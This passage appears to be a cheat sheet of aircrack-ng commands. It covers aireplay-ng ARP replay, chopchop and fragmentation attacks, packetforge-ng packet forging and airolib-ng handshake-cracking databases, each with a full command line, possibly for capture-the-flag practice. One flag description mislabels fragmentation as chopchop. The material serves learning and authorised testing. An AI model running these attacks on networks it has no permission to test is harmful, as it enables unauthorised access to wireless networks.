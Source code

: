 #### ARP request replay attack
Set attack mode [ARP request replay attack](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection).
  - `-3` Set for ARP request replay attack mode
  - `-x` Number of packets-per-second
  - `-r` Extract packets from target pcap file
  - `-b` Target access point BSSID
  - `-h` Set source MAC address
```code
$ aireplay-ng -3 -x 100 -r replay.cap -b 9C:EF:D5:FB:51:60 -h our_mac wlan0mon
```

#### KoreK chopchop attack
Set attack mode [Korek chopchop](https://www.aircrack-ng.org/doku.php?id=korek_chopchop).
  - `-4` Set for chopchop attack
  - `-b` Target access point MAC address
  - `-h` Our wireless card's MAC address
```code
$  aireplay-ng -4 -b 9C:EF:D5:FB:51:60 -h our_mac wlan0mon
```

#### Fragmentation attack
Set attack mode [Fragmentation](https://www.aircrack-ng.org/doku.php?id=fragmentation).
  - `-5` Set for chopchop attack
  - `-b` Target access point MAC address
  - `-h` Our wireless card's MAC address
```code
$ aireplay-ng -5 -b 9C:EF:D5:FB:51:60 -h our_mac wlan0mon
```

#### packetforge-ng
Generate packets for injection from PRGA capture.

Summary of different modes:
  - `--arp` or `-0` for ARP packet
  - `--udp` or `-1` for UDP packet
  - `--icmp` or `-2` for ICMP packet
  - `--null` or `-3` for a null packet
  - `--custom` or `-9` for a custom packet

Additional example:
  - `-0` Set for generate arp packet
  - `-a` Target access point MAC address
  - `-h` Our wireless card's MAC address
  - `-k` Destination IP address (255.255.255.255)
  - `-l` Source IP address (255.255.255.255)
  - `-y` XOR file to read the PRGA from
  - `-w` Write to file
```code
$ packetforge-ng -0 -a 9C:EF:D5:FB:51:60 -h our_mac -k 255.255.255.255 -l 255.255.255.255 -y file.xor -w arp-request
```

#### airolib-ng
[airolib-ng](https://www.aircrack-ng.org/doku.php?id=airolib-ng) is the database to store essid's, captured PMKs, import password lists and accelerate handshake cracking.
Create database and import essid file.
```code
$ airolib-ng CTF --import essid CTF_essids
```
